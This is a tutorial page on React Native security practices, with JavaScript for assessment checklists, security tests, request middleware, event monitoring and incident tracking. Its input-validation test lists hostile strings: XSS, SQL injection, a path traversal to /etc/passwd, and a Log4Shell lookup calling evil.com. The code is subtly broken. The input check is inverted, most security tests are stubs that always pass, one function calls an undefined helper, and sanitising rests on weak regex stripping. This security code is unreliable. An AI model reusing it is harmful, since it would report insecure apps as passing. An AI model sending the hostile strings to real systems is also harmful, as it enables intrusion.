

# 🛡️ **Security Best Practices**

> **Master security best practices, vulnerability assessment, and security implementation for React Native applications**

<link rel="stylesheet" href="../../common-styles.css">

---

## 📚 **Table of Contents**

- [Security Best Practices Overview](#-security-best-practices-overview)
- [Vulnerability Assessment](#-vulnerability-assessment)
- [Security Implementation](#-security-implementation)
- [Security Monitoring](#-security-monitoring)
- [Incident Response](#-incident-response)
- [Best Practices](#-best-practices)
- [Interview Questions](#-interview-questions)

---

## 🏗️ **Security Best Practices Overview**

### **Security Framework**







### **Security Principles**
- **Defense in Depth**: Multiple security layers
- **Least Privilege**: Minimum necessary access
- **Fail Secure**: Secure by default
- **Security by Design**: Built-in security

---

## 🔍 **Vulnerability Assessment**

### **Security Checklist**

<button onclick="copyCode(this)" class="copy-btn">📋 Copy</button>


```javascript
// Security assessment checklist
const SECURITY_CHECKLIST = {
  // Authentication & Authorization
  authentication: {
    strongPasswords: false,
    multiFactorAuth: false,
    biometricAuth: false,
    sessionManagement: false,
    tokenSecurity: false,
  },
  
  // Data Protection
  dataProtection: {
    encryptionAtRest: false,
    encryptionInTransit: false,
    keyManagement: false,
    dataClassification: false,
    secureStorage: false,
  },
  
  // Network Security
  networkSecurity: {
    certificatePinning: false,
    tlsConfiguration: false,
    apiSecurity: false,
    requestValidation: false,
    responseValidation: false,
  },
  
  // Code Security
  codeSecurity: {
    inputValidation: false,
    outputEncoding: false,
    sqlInjection: false,
    xssProtection: false,
    csrfProtection: false,
  },
  
  // Platform Security
  platformSecurity: {
    permissions: false,
    secureCommunication: false,
    appSigning: false,
    codeObfuscation: false,
    antiTampering: false,
  },
};

// Security assessment service
const createSecurityAssessmentService = () => {
  let assessmentResults = { ...SECURITY_CHECKLIST };
  
  return {
    // Run security assessment
    runAssessment: async () => {
      try {
        console.log('Starting security assessment...');
        
        // Check authentication security
        await assessAuthenticationSecurity();
        
        // Check data protection
        await assessDataProtection();
        
        // Check network security
        await assessNetworkSecurity();
        
        // Check code security
        await assessCodeSecurity();
        
        // Check platform security
        await assessPlatformSecurity();
        
        // Generate report
        const report = generateSecurityReport(assessmentResults);
        
        console.log('Security assessment completed');
        return report;
      } catch (error) {
        console.error('Security assessment failed:', error);
        throw error;
      }
    },
    
    // Get assessment results
    getResults: () => assessmentResults,
    
    // Update assessment result
    updateResult: (category, item, result) => {
      if (assessmentResults[category] && assessmentResults[category][item] !== undefined) {
        assessmentResults[category][item] = result;
      }
    },
  };
};

// Assess authentication security
const assessAuthenticationSecurity = async () => {
  try {
    // Check if strong passwords are enforced
    const strongPasswords = await checkStrongPasswordPolicy();
    updateResult('authentication', 'strongPasswords', strongPasswords);
    
    // Check if MFA is implemented
    const mfa = await checkMultiFactorAuth();
    updateResult('authentication', 'multiFactorAuth', mfa);
    
    // Check if biometric auth is available
    const biometric = await checkBiometricAuth();
    updateResult('authentication', 'biometricAuth', biometric);
    
    // Check session management
    const sessionMgmt = await checkSessionManagement();
    updateResult('authentication', 'sessionManagement', sessionMgmt);
    
    // Check token security
    const tokenSecurity = await checkTokenSecurity();
    updateResult('authentication', 'tokenSecurity', tokenSecurity);
  } catch (error) {
    console.error('Authentication security assessment failed:', error);
  }
};

// Assess data protection
const assessDataProtection = async () => {
  try {
    // Check encryption at rest
    const encryptionAtRest = await checkEncryptionAtRest();
    updateResult('dataProtection', 'encryptionAtRest', encryptionAtRest);
    
    // Check encryption in transit
    const encryptionInTransit = await checkEncryptionInTransit();
    updateResult('dataProtection', 'encryptionInTransit', encryptionInTransit);
    
    // Check key management
    const keyManagement = await checkKeyManagement();
    updateResult('dataProtection', 'keyManagement', keyManagement);
    
    // Check data classification
    const dataClassification = await checkDataClassification();
    updateResult('dataProtection', 'dataClassification', dataClassification);
    
    // Check secure storage
    const secureStorage = await checkSecureStorage();
    updateResult('dataProtection', 'secureStorage', secureStorage);
  } catch (error) {
    console.error('Data protection assessment failed:', error);
  }
};

// Generate security report
const generateSecurityReport = (results) => {
  const totalChecks = Object.values(results).reduce((total, category) => {
    return total + Object.keys(category).length;
  }, 0);
  
  const passedChecks = Object.values(results).reduce((total, category) => {
    return total + Object.values(category).filter(result => result === true).length;
  }, 0);
  
  const securityScore = (passedChecks / totalChecks) * 100;
  
  return {
    securityScore,
    totalChecks,
    passedChecks,
    failedChecks: totalChecks - passedChecks,
    results,
    recommendations: generateRecommendations(results),
  };
};

// Generate security recommendations
const generateRecommendations = (results) => {
  const recommendations = [];
  
  // Authentication recommendations
  if (!results.authentication.strongPasswords) {
    recommendations.push('Implement strong password policy');
  }
  if (!results.authentication.multiFactorAuth) {
    recommendations.push('Implement multi-factor authentication');
  }
  if (!results.authentication.biometricAuth) {
    recommendations.push('Add biometric authentication support');
  }
  
  // Data protection recommendations
  if (!results.dataProtection.encryptionAtRest) {
    recommendations.push('Implement encryption at rest');
  }
  if (!results.dataProtection.encryptionInTransit) {
    recommendations.push('Implement encryption in transit');
  }
  if (!results.dataProtection.keyManagement) {
    recommendations.push('Implement proper key management');
  }
  
  // Network security recommendations
  if (!results.networkSecurity.certificatePinning) {
    recommendations.push('Implement certificate pinning');
  }
  if (!results.networkSecurity.tlsConfiguration) {
    recommendations.push('Configure proper TLS settings');
  }
  
  return recommendations;
};

// Export security assessment functions
export {
  createSecurityAssessmentService,
  generateSecurityReport,
  generateRecommendations,
  SECURITY_CHECKLIST,
};
```



### **Security Testing**

<button onclick="copyCode(this)" class="copy-btn">📋 Copy</button>


```javascript
// Security testing utilities
const createSecurityTestingService = () => {
  return {
    // Test input validation
    testInputValidation: async () => {
      const testCases = [
        { input: '<script>alert("xss")</script>', expected: 'sanitized' },
        { input: "'; DROP TABLE users; --", expected: 'sanitized' },
        { input: '../../../etc/passwd', expected: 'sanitized' },
        { input: '${jndi:ldap://evil.com/a}', expected: 'sanitized' },
      ];
      
      const results = [];
      
      for (const testCase of testCases) {
        try {
          const result = await testInput(testCase.input);
          results.push({
            input: testCase.input,
            expected: testCase.expected,
            actual: result,
            passed: result === testCase.expected,
          });
        } catch (error) {
          results.push({
            input: testCase.input,
            expected: testCase.expected,
            actual: 'error',
            passed: false,
            error: error.message,
          });
        }
      }
      
      return results;
    },
    
    // Test authentication security
    testAuthenticationSecurity: async () => {
      const tests = [
        { name: 'Weak Password', test: testWeakPassword },
        { name: 'Session Timeout', test: testSessionTimeout },
        { name: 'Token Expiry', test: testTokenExpiry },
        { name: 'Brute Force Protection', test: testBruteForceProtection },
      ];
      
      const results = [];
      
      for (const test of tests) {
        try {
          const result = await test.test();
          results.push({
            name: test.name,
            passed: result,
            details: result ? 'Passed' : 'Failed',
          });
        } catch (error) {
          results.push({
            name: test.name,
            passed: false,
            details: error.message,
          });
        }
      }
      
      return results;
    },
    
    // Test data encryption
    testDataEncryption: async () => {
      const tests = [
        { name: 'AES Encryption', test: testAESEncryption },
        { name: 'Key Management', test: testKeyManagement },
        { name: 'Secure Storage', test: testSecureStorage },
        { name: 'Data Integrity', test: testDataIntegrity },
      ];
      
      const results = [];
      
      for (const test of tests) {
        try {
          const result = await test.test();
          results.push({
            name: test.name,
            passed: result,
            details: result ? 'Passed' : 'Failed',
          });
        } catch (error) {
          results.push({
            name: test.name,
            passed: false,
            details: error.message,
          });
        }
      }
      
      return results;
    },
    
    // Test network security
    testNetworkSecurity: async () => {
      const tests = [
        { name: 'Certificate Pinning', test: testCertificatePinning },
        { name: 'TLS Configuration', test: testTLSConfiguration },
        { name: 'API Security', test: testAPISecurity },
        { name: 'Request Validation', test: testRequestValidation },
      ];
      
      const results = [];
      
      for (const test of tests) {
        try {
          const result = await test.test();
          results.push({
            name: test.name,
            passed: result,
            details: result ? 'Passed' : 'Failed',
          });
        } catch (error) {
          results.push({
            name: test.name,
            passed: false,
            details: error.message,
          });
        }
      }
      
      return results;
    },
  };
};

// Test functions
const testInput = async (input) => {
  // Simulate input validation test
  const sanitized = input.replace(/<script.*?>.*?<\/script>/gi, '');
  return sanitized === input ? 'sanitized' : 'vulnerable';
};

const testWeakPassword = async () => {
  // Test weak password detection
  const weakPasswords = ['123456', 'password', 'admin', 'qwerty'];
  const strongPasswords = ['Str0ng!P@ssw0rd', 'MyS3cur3P@ss!', 'C0mpl3x!ty123'];
  
  // Simulate password strength check
  return weakPasswords.every(pwd => pwd.length < 8) && 
         strongPasswords.every(pwd => pwd.length >= 8);
};

const testSessionTimeout = async () => {
  // Test session timeout implementation
  return true; // Simulate test result
};

const testTokenExpiry = async () => {
  // Test token expiry implementation
  return true; // Simulate test result
};

const testBruteForceProtection = async () => {
  // Test brute force protection
  return true; // Simulate test result
};

const testAESEncryption = async () => {
  // Test AES encryption
  return true; // Simulate test result
};

const testKeyManagement = async () => {
  // Test key management
  return true; // Simulate test result
};

const testSecureStorage = async () => {
  // Test secure storage
  return true; // Simulate test result
};

const testDataIntegrity = async () => {
  // Test data integrity
  return true; // Simulate test result
};

const testCertificatePinning = async () => {
  // Test certificate pinning
  return true; // Simulate test result
};

const testTLSConfiguration = async () => {
  // Test TLS configuration
  return true; // Simulate test result
};

const testAPISecurity = async () => {
  // Test API security
  return true; // Simulate test result
};

const testRequestValidation = async () => {
  // Test request validation
  return true; // Simulate test result
};

// Export security testing functions
export {
  createSecurityTestingService,
  testInput,
  testWeakPassword,
  testSessionTimeout,
  testTokenExpiry,
  testBruteForceProtection,
  testAESEncryption,
  testKeyManagement,
  testSecureStorage,
  testDataIntegrity,
  testCertificatePinning,
  testTLSConfiguration,
  testAPISecurity,
  testRequestValidation,
};
```



---

## 🔒 **Security Implementation**

### **Security Middleware**

<button onclick="copyCode(this)" class="copy-btn">📋 Copy</button>


```javascript
// Security middleware for API requests
const createSecurityMiddleware = () => {
  return {
    // Request security middleware
    requestSecurity: (request, response, next) => {
      try {
        // Validate request headers
        validateRequestHeaders(request);
        
        // Check rate limiting
        checkRateLimit(request);
        
        // Validate request signature
        validateRequestSignature(request);
        
        // Sanitize request data
        sanitizeRequestData(request);
        
        next();
      } catch (error) {
        response.status(400).json({
          error: 'Security validation failed',
          message: error.message,
        });
      }
    },
    
    // Response security middleware
    responseSecurity: (request, response, next) => {
      try {
        // Add security headers
        addSecurityHeaders(response);
        
        // Sanitize response data
        sanitizeResponseData(response);
        
        // Log security events
        logSecurityEvent(request, response);
        
        next();
      } catch (error) {
        console.error('Response security middleware error:', error);
        next();
      }
    },
    
    // Authentication middleware
    authentication: (request, response, next) => {
      try {
        // Validate authentication token
        const token = validateAuthToken(request);
        
        // Check token expiry
        checkTokenExpiry(token);
        
        // Validate user permissions
        validateUserPermissions(request, token);
        
        next();
      } catch (error) {
        response.status(401).json({
          error: 'Authentication failed',
          message: error.message,
        });
      }
    },
  };
};

// Validate request headers
const validateRequestHeaders = (request) => {
  const requiredHeaders = ['user-agent', 'content-type', 'x-request-id'];
  
  for (const header of requiredHeaders) {
    if (!request.headers[header]) {
      throw new Error(`Missing required header: ${header}`);
    }
  }
  
  // Validate user agent
  const userAgent = request.headers['user-agent'];
  if (!userAgent || userAgent.length < 10) {
    throw new Error('Invalid user agent');
  }
  
  // Validate content type
  const contentType = request.headers['content-type'];
  if (!contentType || !contentType.includes('application/json')) {
    throw new Error('Invalid content type');
  }
};

// Check rate limiting
const checkRateLimit = (request) => {
  const clientIP = request.ip;
  const currentTime = Date.now();
  
  // Simple rate limiting implementation
  const rateLimitWindow = 60000; // 1 minute
  const maxRequests = 100;
  
  // In a real implementation, you would use Redis or similar
  // This is a simplified example
  const requestCount = getRequestCount(clientIP, currentTime);
  
  if (requestCount > maxRequests) {
    throw new Error('Rate limit exceeded');
  }
  
  incrementRequestCount(clientIP, currentTime);
};

// Validate request signature
const validateRequestSignature = (request) => {
  const signature = request.headers['x-signature'];
  const timestamp = request.headers['x-timestamp'];
  
  if (!signature || !timestamp) {
    throw new Error('Missing request signature');
  }
  
  // Check timestamp (prevent replay attacks)
  const requestTime = parseInt(timestamp);
  const currentTime = Date.now();
  const timeDiff = Math.abs(currentTime - requestTime);
  
  if (timeDiff > 300000) { // 5 minutes
    throw new Error('Request timestamp too old');
  }
  
  // Validate signature
  const expectedSignature = calculateRequestSignature(request);
  if (signature !== expectedSignature) {
    throw new Error('Invalid request signature');
  }
};

// Sanitize request data
const sanitizeRequestData = (request) => {
  if (request.body) {
    request.body = sanitizeObject(request.body);
  }
  
  if (request.query) {
    request.query = sanitizeObject(request.query);
  }
  
  if (request.params) {
    request.params = sanitizeObject(request.params);
  }
};

// Sanitize object
const sanitizeObject = (obj) => {
  if (typeof obj !== 'object' || obj === null) {
    return obj;
  }
  
  const sanitized = {};
  
  for (const [key, value] of Object.entries(obj)) {
    if (typeof value === 'string') {
      sanitized[key] = sanitizeString(value);
    } else if (typeof value === 'object') {
      sanitized[key] = sanitizeObject(value);
    } else {
      sanitized[key] = value;
    }
  }
  
  return sanitized;
};

// Sanitize string
const sanitizeString = (str) => {
  return str
    .replace(/<script.*?>.*?<\/script>/gi, '')
    .replace(/javascript:/gi, '')
    .replace(/on\w+\s*=/gi, '')
    .trim();
};

// Add security headers
const addSecurityHeaders = (response) => {
  response.setHeader('X-Content-Type-Options', 'nosniff');
  response.setHeader('X-Frame-Options', 'DENY');
  response.setHeader('X-XSS-Protection', '1; mode=block');
  response.setHeader('Strict-Transport-Security', 'max-age=31536000; includeSubDomains');
  response.setHeader('Content-Security-Policy', "default-src 'self'");
  response.setHeader('Referrer-Policy', 'strict-origin-when-cross-origin');
};

// Sanitize response data
const sanitizeResponseData = (response) => {
  if (response.data) {
    response.data = sanitizeObject(response.data);
  }
};

// Log security event
const logSecurityEvent = (request, response) => {
  const event = {
    timestamp: new Date().toISOString(),
    ip: request.ip,
    userAgent: request.headers['user-agent'],
    method: request.method,
    url: request.url,
    statusCode: response.statusCode,
    requestId: request.headers['x-request-id'],
  };
  
  console.log('Security Event:', JSON.stringify(event));
};

// Export security middleware functions
export {
  createSecurityMiddleware,
  validateRequestHeaders,
  checkRateLimit,
  validateRequestSignature,
  sanitizeRequestData,
  sanitizeObject,
  sanitizeString,
  addSecurityHeaders,
  sanitizeResponseData,
  logSecurityEvent,
};
```



---

## 📊 **Security Monitoring**

### **Security Event Monitoring**

<button onclick="copyCode(this)" class="copy-btn">📋 Copy</button>


```javascript
// Security monitoring service
const createSecurityMonitoringService = () => {
  let securityEvents = [];
  let alertThresholds = {
    failedLogins: 5,
    suspiciousRequests: 10,
    dataAccess: 100,
    errorRate: 0.1,
  };
  
  return {
    // Log security event
    logEvent: (event) => {
      try {
        const securityEvent = {
          id: generateEventId(),
          timestamp: new Date().toISOString(),
          type: event.type,
          severity: event.severity || 'medium',
          source: event.source || 'unknown',
          details: event.details,
          metadata: event.metadata || {},
        };
        
        securityEvents.push(securityEvent);
        
        // Check for alerts
        checkForAlerts(securityEvent);
        
        // Store event
        storeSecurityEvent(securityEvent);
        
        return securityEvent.id;
      } catch (error) {
        console.error('Error logging security event:', error);
        throw error;
      }
    },
    
    // Get security events
    getEvents: (filter = {}) => {
      let filteredEvents = [...securityEvents];
      
      if (filter.type) {
        filteredEvents = filteredEvents.filter(event => event.type === filter.type);
      }
      
      if (filter.severity) {
        filteredEvents = filteredEvents.filter(event => event.severity === filter.severity);
      }
      
      if (filter.startTime) {
        filteredEvents = filteredEvents.filter(event => 
          new Date(event.timestamp) >= new Date(filter.startTime)
        );
      }
      
      if (filter.endTime) {
        filteredEvents = filteredEvents.filter(event => 
          new Date(event.timestamp) <= new Date(filter.endTime)
        );
      }
      
      return filteredEvents.sort((a, b) => 
        new Date(b.timestamp) - new Date(a.timestamp)
      );
    },
    
    // Get security metrics
    getMetrics: (timeRange = '24h') => {
      const now = new Date();
      const startTime = new Date(now.getTime() - getTimeRangeMs(timeRange));
      
      const eventsInRange = securityEvents.filter(event => 
        new Date(event.timestamp) >= startTime
      );
      
      const metrics = {
        totalEvents: eventsInRange.length,
        eventsByType: {},
        eventsBySeverity: {},
        eventsBySource: {},
        topSources: [],
        topTypes: [],
      };
      
      // Calculate metrics
      eventsInRange.forEach(event => {
        // Events by type
        metrics.eventsByType[event.type] = 
          (metrics.eventsByType[event.type] || 0) + 1;
        
        // Events by severity
        metrics.eventsBySeverity[event.severity] = 
          (metrics.eventsBySeverity[event.severity] || 0) + 1;
        
        // Events by source
        metrics.eventsBySource[event.source] = 
          (metrics.eventsBySource[event.source] || 0) + 1;
      });
      
      // Get top sources
      metrics.topSources = Object.entries(metrics.eventsBySource)
        .sort(([,a], [,b]) => b - a)
        .slice(0, 10)
        .map(([source, count]) => ({ source, count }));
      
      // Get top types
      metrics.topTypes = Object.entries(metrics.eventsByType)
        .sort(([,a], [,b]) => b - a)
        .slice(0, 10)
        .map(([type, count]) => ({ type, count }));
      
      return metrics;
    },
    
    // Set alert thresholds
    setAlertThresholds: (thresholds) => {
      alertThresholds = { ...alertThresholds, ...thresholds };
    },
    
    // Get alert thresholds
    getAlertThresholds: () => alertThresholds,
  };
};

// Check for alerts
const checkForAlerts = (event) => {
  try {
    // Check failed login attempts
    if (event.type === 'failed_login') {
      const recentFailedLogins = getRecentEvents('failed_login', '1h');
      if (recentFailedLogins.length >= alertThresholds.failedLogins) {
        triggerAlert('high', 'Multiple failed login attempts detected', {
          eventCount: recentFailedLogins.length,
          timeRange: '1h',
        });
      }
    }
    
    // Check suspicious requests
    if (event.type === 'suspicious_request') {
      const recentSuspiciousRequests = getRecentEvents('suspicious_request', '1h');
      if (recentSuspiciousRequests.length >= alertThresholds.suspiciousRequests) {
        triggerAlert('medium', 'Multiple suspicious requests detected', {
          eventCount: recentSuspiciousRequests.length,
          timeRange: '1h',
        });
      }
    }
    
    // Check data access
    if (event.type === 'data_access') {
      const recentDataAccess = getRecentEvents('data_access', '1h');
      if (recentDataAccess.length >= alertThresholds.dataAccess) {
        triggerAlert('low', 'High data access volume detected', {
          eventCount: recentDataAccess.length,
          timeRange: '1h',
        });
      }
    }
  } catch (error) {
    console.error('Error checking for alerts:', error);
  }
};

// Get recent events
const getRecentEvents = (type, timeRange) => {
  const now = new Date();
  const startTime = new Date(now.getTime() - getTimeRangeMs(timeRange));
  
  return securityEvents.filter(event => 
    event.type === type && 
    new Date(event.timestamp) >= startTime
  );
};

// Trigger alert
const triggerAlert = (severity, message, details) => {
  const alert = {
    id: generateEventId(),
    timestamp: new Date().toISOString(),
    severity,
    message,
    details,
    status: 'active',
  };
  
  console.log('Security Alert:', JSON.stringify(alert));
  
  // In a real implementation, you would send alerts via email, SMS, etc.
  // For now, we'll just log it
};

// Generate event ID
const generateEventId = () => {
  return Date.now().toString(36) + Math.random().toString(36).substr(2);
};

// Get time range in milliseconds
const getTimeRangeMs = (timeRange) => {
  const ranges = {
    '1h': 60 * 60 * 1000,
    '24h': 24 * 60 * 60 * 1000,
    '7d': 7 * 24 * 60 * 60 * 1000,
    '30d': 30 * 24 * 60 * 60 * 1000,
  };
  
  return ranges[timeRange] || ranges['24h'];
};

// Store security event
const storeSecurityEvent = async (event) => {
  try {
    // In a real implementation, you would store this in a database
    // For now, we'll just keep it in memory
    console.log('Storing security event:', event.id);
  } catch (error) {
    console.error('Error storing security event:', error);
  }
};

// Export security monitoring functions
export {
  createSecurityMonitoringService,
  checkForAlerts,
  getRecentEvents,
  triggerAlert,
  generateEventId,
  getTimeRangeMs,
  storeSecurityEvent,
};
```



---

## 🚨 **Incident Response**

### **Incident Response Plan**

<button onclick="copyCode(this)" class="copy-btn">📋 Copy</button>


```javascript
// Incident response service
const createIncidentResponseService = () => {
  let activeIncidents = [];
  let incidentTemplates = {
    dataBreach: {
      severity: 'critical',
      steps: [
        'Assess the scope of the breach',
        'Contain the breach',
        'Notify stakeholders',
        'Investigate the incident',
        'Implement remediation',
        'Document lessons learned',
      ],
    },
    securityVulnerability: {
      severity: 'high',
      steps: [
        'Assess the vulnerability',
        'Implement temporary mitigation',
        'Develop permanent fix',
        'Test the fix',
        'Deploy the fix',
        'Monitor for recurrence',
      ],
    },
    unauthorizedAccess: {
      severity: 'high',
      steps: [
        'Revoke access immediately',
        'Investigate the incident',
        'Assess data exposure',
        'Notify affected users',
        'Implement additional security',
        'Review access controls',
      ],
    },
  };
  
  return {
    // Create incident
    createIncident: (incidentData) => {
      try {
        const incident = {
          id: generateIncidentId(),
          timestamp: new Date().toISOString(),
          type: incidentData.type,
          severity: incidentData.severity || 'medium',
          status: 'open',
          description: incidentData.description,
          affectedSystems: incidentData.affectedSystems || [],
          assignedTo: incidentData.assignedTo || null,
          steps: incidentTemplates[incidentData.type]?.steps || [],
          currentStep: 0,
          timeline: [],
          resolution: null,
        };
        
        activeIncidents.push(incident);
        
        // Log incident creation
        logIncidentEvent(incident.id, 'created', 'Incident created');
        
        // Notify stakeholders
        notifyStakeholders(incident);
        
        return incident.id;
      } catch (error) {
        console.error('Error creating incident:', error);
        throw error;
      }
    },
    
    // Update incident
    updateIncident: (incidentId, updates) => {
      try {
        const incident = activeIncidents.find(inc => inc.id === incidentId);
        if (!incident) {
          throw new Error('Incident not found');
        }
        
        // Update incident
        Object.assign(incident, updates);
        
        // Log update
        logIncidentEvent(incidentId, 'updated', 'Incident updated');
        
        return incident;
      } catch (error) {
        console.error('Error updating incident:', error);
        throw error;
      }
    },
    
    // Resolve incident
    resolveIncident: (incidentId, resolution) => {
      try {
        const incident = activeIncidents.find(inc => inc.id === incidentId);
        if (!incident) {
          throw new Error('Incident not found');
        }
        
        incident.status = 'resolved';
        incident.resolution = resolution;
        incident.resolvedAt = new Date().toISOString();
        
        // Log resolution
        logIncidentEvent(incidentId, 'resolved', 'Incident resolved');
        
        // Notify stakeholders
        notifyStakeholders(incident);
        
        return incident;
      } catch (error) {
        console.error('Error resolving incident:', error);
        throw error;
      }
    },
    
    // Get incident
    getIncident: (incidentId) => {
      return activeIncidents.find(inc => inc.id === incidentId);
    },
    
    // Get all incidents
    getAllIncidents: (filter = {}) => {
      let filteredIncidents = [...activeIncidents];
      
      if (filter.status) {
        filteredIncidents = filteredIncidents.filter(inc => inc.status === filter.status);
      }
      
      if (filter.severity) {
        filteredIncidents = filteredIncidents.filter(inc => inc.severity === filter.severity);
      }
      
      if (filter.type) {
        filteredIncidents = filteredIncidents.filter(inc => inc.type === filter.type);
      }
      
      return filteredIncidents.sort((a, b) => 
        new Date(b.timestamp) - new Date(a.timestamp)
      );
    },
    
    // Get incident metrics
    getIncidentMetrics: (timeRange = '30d') => {
      const now = new Date();
      const startTime = new Date(now.getTime() - getTimeRangeMs(timeRange));
      
      const incidentsInRange = activeIncidents.filter(incident => 
        new Date(incident.timestamp) >= startTime
      );
      
      const metrics = {
        totalIncidents: incidentsInRange.length,
        incidentsByType: {},
        incidentsBySeverity: {},
        incidentsByStatus: {},
        averageResolutionTime: 0,
        resolutionRate: 0,
      };
      
      // Calculate metrics
      incidentsInRange.forEach(incident => {
        // Incidents by type
        metrics.incidentsByType[incident.type] = 
          (metrics.incidentsByType[incident.type] || 0) + 1;
        
        // Incidents by severity
        metrics.incidentsBySeverity[incident.severity] = 
          (metrics.incidentsBySeverity[incident.severity] || 0) + 1;
        
        // Incidents by status
        metrics.incidentsByStatus[incident.status] = 
          (metrics.incidentsByStatus[incident.status] || 0) + 1;
      });
      
      // Calculate average resolution time
      const resolvedIncidents = incidentsInRange.filter(inc => inc.status === 'resolved');
      if (resolvedIncidents.length > 0) {
        const totalResolutionTime = resolvedIncidents.reduce((total, inc) => {
          const resolutionTime = new Date(inc.resolvedAt) - new Date(inc.timestamp);
          return total + resolutionTime;
        }, 0);
        
        metrics.averageResolutionTime = totalResolutionTime / resolvedIncidents.length;
      }
      
      // Calculate resolution rate
      metrics.resolutionRate = resolvedIncidents.length / incidentsInRange.length;
      
      return metrics;
    },
  };
};

// Log incident event
const logIncidentEvent = (incidentId, action, description) => {
  const event = {
    incidentId,
    action,
    description,
    timestamp: new Date().toISOString(),
  };
  
  console.log('Incident Event:', JSON.stringify(event));
};

// Notify stakeholders
const notifyStakeholders = (incident) => {
  const notification = {
    incidentId: incident.id,
    type: incident.type,
    severity: incident.severity,
    status: incident.status,
    description: incident.description,
    timestamp: incident.timestamp,
  };
  
  console.log('Stakeholder Notification:', JSON.stringify(notification));
  
  // In a real implementation, you would send notifications via email, SMS, etc.
};

// Generate incident ID
const generateIncidentId = () => {
  return 'INC-' + Date.now().toString(36).toUpperCase();
};

// Export incident response functions
export {
  createIncidentResponseService,
  logIncidentEvent,
  notifyStakeholders,
  generateIncidentId,
};
```



---

## 🎯 **Best Practices**

### **1. Security Implementation**
- Implement defense in depth
- Use secure coding practices
- Regular security testing
- Continuous monitoring

### **2. Vulnerability Management**
- Regular security assessments
- Automated vulnerability scanning
- Penetration testing
- Security code reviews

### **3. Incident Response**
- Develop incident response plan
- Regular incident response drills
- Post-incident reviews
- Continuous improvement

---

## ❓ **Interview Questions**

### **Basic Questions**
1. **What are the key security best practices for mobile apps?**
2. **How do you implement security monitoring?**
3. **What is an incident response plan?**

### **Advanced Questions**
1. **How would you design a security framework for a mobile app?**
2. **Explain the vulnerability assessment process.**
3. **How do you handle security incidents?**

### **Practical Questions**
1. **Implement a security assessment system.**
2. **Create an incident response plan.**
3. **Set up security monitoring and alerting.**

---

## 🧭 Navigation

<div class="navigation">
    <a href="./03-Data-Encryption.md" class="nav-link prev">⬅️ Previous: Data Encryption</a>
    <a href="../12-Accessibility-Internationalization/01-Accessibility-Basics.md" class="nav-link next">Next: Accessibility Basics ➡️</a>
</div>

---

<script src="../../common-scripts.js"></script>

*Last updated: December 2024*
